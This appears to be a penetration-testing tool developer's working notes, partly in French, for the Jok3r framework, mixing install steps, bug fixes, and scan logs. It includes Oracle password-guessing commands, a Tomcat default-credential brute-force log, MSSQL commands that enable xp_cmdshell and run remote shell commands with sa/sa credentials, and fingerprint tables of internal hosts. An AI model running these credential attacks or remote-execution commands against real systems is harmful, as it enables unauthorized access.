wget https://github.com/koutto/jok3r-scripts/raw/master/oracle/odat-dependencies/oracle-instantclient18.3-basic_18.3.0.0.0-2_amd64.deb
wget https://github.com/koutto/jok3r-scripts/raw/master/oracle/odat-dependencies/oracle-instantclient18.3-devel_18.3.0.0.0-2_amd64.deb
sudo dpkg -i oracle-instantclient18.3-basic_18.3.0.0.0-2_amd64.deb
sudo dpkg -i oracle-instantclient12.2-sqlplus_12.2.0.1.0-2_amd64.deb

- add in dockerfile:

  export ORACLE_HOME=`file /usr/lib/oracle/*/client64/ | tail -n 1 | cut -d':' -f1`
  export LD_LIBRARY_PATH=$LD_LIBRARY_PATH:$ORACLE_HOME/lib
  export PATH=$ORACLE_HOME/bin:$PATH
  
 - autre bug:
17:17:05 DEBUG -: Try to connect with APPLYSYSPUB/<UNKNOWN>
17:17:05 DEBUG -: Oracle connection string: APPLYSYSPUB/<UNKNOWN>@10.190.98.115:1521/LISTENER
17:17:05 DEBUG -: Error during connection with this account: `ORA-12514: TNS:listener does not currently know of service requested in connect descriptor`
17:17:05 DEBUG -: Try to connect with APPS/APPS
17:17:05 DEBUG -: Oracle connection string: APPS/APPS@10.190.98.115:1521/LISTENER
=> correction:
/bin/bash -c "export ORACLE_HOME=`file /usr/lib/oracle/*/client64/ | tail -n 1 | cut -d':' -f1`; export LD_LIBRARY_PATH=$LD_LIBRARY_PATH:$ORACLE_HOME/lib; export PATH=$ORACLE_HOME/bin:$PATH; python2.7 odat.py passwordguesser -s 10.190.98.114 -p 1521 -d SCAN3 -vv --force-retry --accounts-file accounts/accounts_multiple.txt"


- More default creds for mssql
https://github.com/mubix/post-exploitation-wiki/blob/master/windows/mssql.md












- smartmodule method changeme:

Loaded 113 default credential profiles
Loaded 324 default credentials

[10:57:26] Configured protocols: http
[10:57:26] Loading creds into queue
[10:57:26] Apache Tomcat basic auth matched: Tomcat Manager Application
[10:57:26] Apache Tomcat Host Manager basic auth matched: Tomcat Host Manager Application
[10:57:26] Fingerprinting completed
[10:57:26] Invalid Apache Tomcat default cred tomcat:tomcat at http://10.250.87.209:8080/manager/html
[10:57:26] Invalid Apache Tomcat default cred tomcat:tomcat at http://10.250.87.209:8080/tomcat/manager/html
[10:57:26] Invalid Apache Tomcat default cred admin:admin at http://10.250.87.209:8080/tomcat/manager/html
[10:57:26] Invalid Apache Tomcat default cred admin:admin at http://10.250.87.209:8080/manager/html
[10:57:26] Invalid Apache Tomcat default cred ovwebusr:OvW*busr1 at http://10.250.87.209:8080/manager/html
[10:57:26] Invalid Apache Tomcat default cred ovwebusr:OvW*busr1 at http://10.250.87.209:8080/tomcat/manager/html
[10:57:26] Invalid Apache Tomcat default cred j2deployer:j2deployer at http://10.250.87.209:8080/tomcat/manager/html
[10:57:26] Invalid Apache Tomcat default cred cxsdk:kdsxc at http://10.250.87.209:8080/manager/html
[10:57:26] Invalid Apache Tomcat default cred ADMIN:ADMIN at http://10.250.87.209:8080/tomcat/manager/html
[10:57:26] Invalid Apache Tomcat default cred xampp:xampp at http://10.250.87.209:8080/manager/html
[10:57:26] Invalid Apache Tomcat default cred cxsdk:kdsxc at http://10.250.87.209:8080/tomcat/manager/html
[10:57:26] Invalid Apache Tomcat default cred xampp:xampp at http://10.250.87.209:8080/tomcat/manager/html
[10:57:27] Invalid Apache Tomcat default cred QCC:QLogic66 at http://10.250.87.209:8080/manager/html
[10:57:27] Invalid Apache Tomcat default cred QCC:QLogic66 at http://10.250.87.209:8080/tomcat/manager/html
[10:57:27] Invalid Apache Tomcat default cred tomcat:s3cret at http://10.250.87.209:8080/tomcat/manager/html
[10:57:27] Invalid Apache Tomcat default cred admin:None at http://10.250.87.209:8080/tomcat/manager/html
[10:57:27] Invalid Apache Tomcat Host Manager default cred tomcat:tomcat at http://10.250.87.209:8080/host-manager/html
[10:57:27] Invalid Apache Tomcat Host Manager default cred ovwebusr:OvW*busr1 at http://10.250.87.209:8080/host-manager/html
[10:57:27] Invalid Apache Tomcat default cred root:root at http://10.250.87.209:8080/tomcat/manager/html
[10:57:27] Invalid Apache Tomcat Host Manager default cred cxsdk:kdsxc at http://10.250.87.209:8080/host-manager/html
[10:57:27] Invalid Apache Tomcat default cred role1:role1 at http://10.250.87.209:8080/manager/html
[10:57:27] Invalid Apache Tomcat Host Manager default cred ADMIN:ADMIN at http://10.250.87.209:8080/host-manager/html
[10:57:27] Invalid Apache Tomcat default cred role1:role1 at http://10.250.87.209:8080/tomcat/manager/html
[10:57:27] Invalid Apache Tomcat Host Manager default cred xampp:xampp at http://10.250.87.209:8080/host-manager/html
[10:57:27] Invalid Apache Tomcat default cred role:changethis at http://10.250.87.209:8080/manager/html
[10:57:27] Invalid Apache Tomcat Host Manager default cred tomcat:s3cret at http://10.250.87.209:8080/host-manager/html
[10:57:27] Invalid Apache Tomcat default cred role:changethis at http://10.250.87.209:8080/tomcat/manager/html
[10:57:27] Invalid Apache Tomcat Host Manager default cred QCC:QLogic66 at http://10.250.87.209:8080/host-manager/html
[10:57:27] Invalid Apache Tomcat default cred tomcat:changethis at http://10.250.87.209:8080/manager/html
[10:57:27] Invalid Apache Tomcat Host Manager default cred admin:None at http://10.250.87.209:8080/host-manager/html
[10:57:27] Invalid Apache Tomcat default cred tomcat:changethis at http://10.250.87.209:8080/tomcat/manager/html
[10:57:27] Invalid Apache Tomcat Host Manager default cred admin:tomcat at http://10.250.87.209:8080/host-manager/html
[10:57:27] Invalid Apache Tomcat default cred admin:j5Brn9 at http://10.250.87.209:8080/manager/html
[10:57:27] Invalid Apache Tomcat Host Manager default cred root:root at http://10.250.87.209:8080/host-manager/html
[10:57:27] Invalid Apache Tomcat default cred admin:j5Brn9 at http://10.250.87.209:8080/tomcat/manager/html
[10:57:27] Invalid Apache Tomcat Host Manager default cred role1:role1 at http://10.250.87.209:8080/host-manager/html
[10:57:27] Invalid Apache Tomcat default cred role1:tomcat at http://10.250.87.209:8080/manager/html
[10:57:27] Invalid Apache Tomcat Host Manager default cred role:changethis at http://10.250.87.209:8080/host-manager/html
[10:57:27] Invalid Apache Tomcat default cred role1:tomcat at http://10.250.87.209:8080/tomcat/manager/html
[10:57:27] Invalid Apache Tomcat Host Manager default cred tomcat:changethis at http://10.250.87.209:8080/host-manager/html
[10:57:27] Invalid Apache Tomcat Host Manager default cred admin:j5Brn9 at http://10.250.87.209:8080/host-manager/html
[10:57:27] Invalid Apache Tomcat Host Manager default cred role1:tomcat at http://10.250.87.209:8080/host-manager/html
[10:57:27] Invalid Apache Tomcat default cred j2deployer:j2deployer at http://10.250.87.209:8080/manager/html
[10:57:27] Invalid Apache Tomcat default cred ADMIN:ADMIN at http://10.250.87.209:8080/manager/html
[10:57:27] Invalid Apache Tomcat default cred tomcat:s3cret at http://10.250.87.209:8080/manager/html
[10:57:27] Invalid Apache Tomcat default cred admin:None at http://10.250.87.209:8080/manager/html
[10:57:27] Invalid Apache Tomcat Host Manager default cred admin:admin at http://10.250.87.209:8080/host-manager/html
[10:57:27] [+] Found Apache Tomcat default cred admin:tomcat at http://10.250.87.209:8080/manager/html
[10:57:27] [+] Found Apache Tomcat default cred : at http://10.250.87.209:8080/manager/html
[10:57:27] Invalid Apache Tomcat Host Manager default cred j2deployer:j2deployer at http://10.250.87.209:8080/host-manager/html
[10:57:30] Invalid Apache Tomcat default cred root:root at http://10.250.87.209:8080/manager/html
[10:57:30] Invalid Apache Tomcat default cred admin:tomcat at http://10.250.87.209:8080/tomcat/manager/html
[10:57:30] Scanning Completed


[10:57:30] Found 1 default credentials

Name           Username    Password    Target                                  Evidence
-------------  ----------  ----------  --------------------------------------  ----------
Apache Tomcat  admin       tomcat      http://10.250.87.209:8080/manager/html


==> m = re.findall('\[\+\] Found (.*) default cred (\S*):(\S*) ', text)

- Mode fast => ne pas reafficher table des targets au debut de chaque target

- MSSQL - postexploit
/bin/bash -c 'python2.7 msdat.py all -s 10.244.214.126 -p 1433 -U sa -P sa -v <<< C'; 

- MSSQL postexploit add shell exec:
python2.7 msdat.py xpcmdshell -s 10.244.214.126 -p 1433 -U sa -P sa -v --enable-xpcmdshell
/bin/bash -c 'python2.7 msdat.py xpcmdshell -s 10.244.214.126 -p 1433 -U sa -P sa -v --shell <<< "whoami && net user"''

- IMPORTANT: encadrer par /bin/bash -c '...' pour toutes les cmds avec <<< any

- impacket install => add sudo pip2 install .
  + reinstall dans docker

- smb => smbexec: also add psexec.py / wmiexec.py


- 
[2018-11-15 03:48PM]  JBoss HTTP Headers (Unreliable) (version 4.2)
[2018-11-15 03:48PM]  JBoss RMI Interface (version Any)
[2018-11-15 03:48PM]  JBoss Status Page (version Any)
[2018-11-15 03:48PM] Fingerprinting completed.
[2018-11-15 03:48PM] Loading auxiliary for 'jboss'...
[2018-11-15 03:48PM] Finished at 2018-11-15 03:48PM

- example de confusion tomcat / jboss :

Server JBoss :
| >207 | 10.244.120.34  | 10.244.120.34  | 8080 | tcp   | http    | product: Apache Tomcat/Coyote JSP engine version: 1.1                 | http://10.244.120.34:8080 

[*] [SMART] Wappalyzer fingerprinting returns: ['java', 'jboss-application-server', 'apache-tomcat', 'java-servlet', 'jboss-web']
[+] [SMART] New detected option: server = tomcat
[+] [SMART] New detected option: language = java
[+] [SMART] Change option: server = tomcat -> jboss
[+] [SMART] Change option: server = jboss -> tomcat
[+] [SMART] Change option: server = tomcat -> jboss


- exemple detection plusieurs version JBoss:
2018-11-15 05:04PM] Making GET request to http://10.244.120.34:8080/status?full=true with arguments {'verify': False, 'timeout': 5.0}
[2018-11-15 05:04PM] Matched 5 fingerprints for service jboss
[2018-11-15 05:04PM]    JBoss Web Manager (version 5.1)
[2018-11-15 05:04PM]    JBoss EJB Invoker Servlet (version Any)
[2018-11-15 05:04PM]    JBoss HTTP Headers (Unreliable) (version 5.0)
[2018-11-15 05:04PM]    JBoss JMX Invoker Servlet (version Any)
[2018-11-15 05:04PM]    JBoss RMI Interface (version Any)
[2018-11-15 05:04PM] Fingerprinting completed.
[2018-11-15 05:04PM] Loading auxiliary for 'jboss'...
[2018-11-15 05:04PM] Finished at 2018-11-15 05:04PM

                                                                                                                                                                                                      


[*] [SMART] Running post-check method "clusterd_detect_server" ...
[*] [SMART] Detected option (no update): server = jboss


- Add start method in SmartModules that detect product from grabbed banner in service.banner
   and update OS if ostype 

    example:
    product: Microsoft IIS httpd version: 6.0 ostype: Windows 
    product: Apache httpd version: 2.2.4 extrainfo: (Unix) DAV/2
    product: Apache httpd version: 2.0.63 extrainfo: DAV/2 hostname
    product: Microsoft Windows 7 - 10 microsoft-ds extrainfo:        |                             |                      | 0      |       |
|      |                |      |       |         | workgroup: FRA hostname: F98W00189184 ostype: Windows 
product: Web-Server httpd version: 3.0 extrainfo: Ricoh Aficio   | http://10.250.236.149:80    |                      | 1      |       |
|      |                |      |       |         | printer web image monitor devicetype: printer
product: Oracle TNS listener version: 12.1.0.2.0 
product: Apache Tomcat/Coyote JSP engine version: 1.1 
product: IBM Tivoli Enterprise Portal extrainfo: Servlet 3.
product: Microsoft SQL Server 2012 version: 11.00.6020; SP3 
product: VMware Workstation SOAP API version: 14.0.0 
product: Jetty version: 8.1.3.v20120522
| 9604 | 10.102.235.134 | 1433  | tcp   | mssql   | product: Microsoft SQL Server 2014 version: 12.00.2000 ostype:    |     |         | 1      |       |
|      |                |       |       |         | Windows                                                           |     |         |        |       |
| 9605 | 10.5.4.85      | 1433  | tcp   | mssql   | product: Microsoft SQL Server 2012 version: 11.00.7001 ostype:    |     |         | 1      |       |
|      |                |       |       |         | Windows                                                           |     |         |        |       |
| 9606 | 10.2.25.53     | 1433  | tcp   | mssql   | product: Microsoft SQL Server 2012 version: 11.00.7462 ostype:    |     |         | 1      |       |
|      |                |       |       |         | Windows                                                           |     |         |        |       |
| 9607 | 10.2.152.50    | 56531 | tcp   | mssql   | product: Microsoft SQL Server 2008 R2 version: 10.50.1600; RTM    |     |         | 1      |       |
|      |                |       |       |         | ostype: Windows                                                   |     |         |        |       |
| 9608 | 10.62.8.1      | 50456 | tcp   | mssql   | product: Microsoft SQL Server 2008 R2 version: 10.50.2500; SP1    |     |         | 1      |       |
|      |                |       |       |         | ostype: Windows                                                   |     |         |        |       |
| 9609 | 10.2.208.38    | 1433  | tcp   | mssql   | product: Microsoft SQL Server 2005 version: 9.00.5000; SP4        |     |         | 1      |       |
|      |                |       |       |         | ostype: Windows                                                   |     |         |        |       |
| 9610 | 10.102.42.95   | 64778 | tcp   | mssql   | product: Microsoft SQL Server 2005 version: 9.00.1399; RTM        |     |         | 1      |       |
|      |                |       |       |         | ostype: Windows                                                   |     |         |        |       |
| 9611 | 10.102.235.165 | 57454 | tcp   | mssql   | product: Microsoft SQL Server 2014 version: 12.00.2000 ostype:    |     |         | 1      |       |
|      |                |       |       |         | Windows                                                           |     |         |        |       |
| 9612 | 10.2.25.140    | 55374 | tcp   | mssql   | product: Microsoft SQL Server 2008 R2 version: 10.50.1600; RTM    |     |         | 1      |       |
|      |                |       |       |         | ostype: Windows                                                   |     |         |        |       |
| 9613 | 10.2.209.186   | 1433  | tcp   | mssql   | product: Microsoft SQL Server 2008 R2 version: 10.50.2425 ostype: |     |         | 1      |       |
|      |                |       |       |         | Windows                                                           |     |         |        |       |
| 9614 | 10.2.28.41     | 1433  | tcp   | mssql   | product: Microsoft SQL Server 2012 version: 11.00.2100; RTM       |     |         | 1      |       |
|      |                |       |       |         | ostype: Windows                                                   |     |         |        |       |
| 9615 | 10.2.153.31    | 1433  | tcp   | mssql   | product: Microsoft SQL Server 2012 version: 11.00.7462 ostype:    |     |         | 1      |       |
|      |                |       |       |         | Windows                                                           |     |         |        |       |
| 9616 | 10.2.25.109    | 55256 | tcp   | mssql   | product: Microsoft SQL Server 2008 R2 version: 10.50.1600; RTM    |     |         | 1      |       |
|      |                |       |       |         | ostype: Windows                                                   |     |         |        |       |
| 9617 | 10.1.98.127    | 1433  | tcp   | mssql   | product: Microsoft SQL Server 2008 R2 version: 10.50.4000; SP2    |     |         | 1      |       |
|      |                |       |       |         | ostype: Windows                                                   |     |         |        |       |
+------+----------------+-------+-------+---------+-----------------------


Services to add
===============
* NFS
* MongoDB
* RPC
* DNS
* LDAP
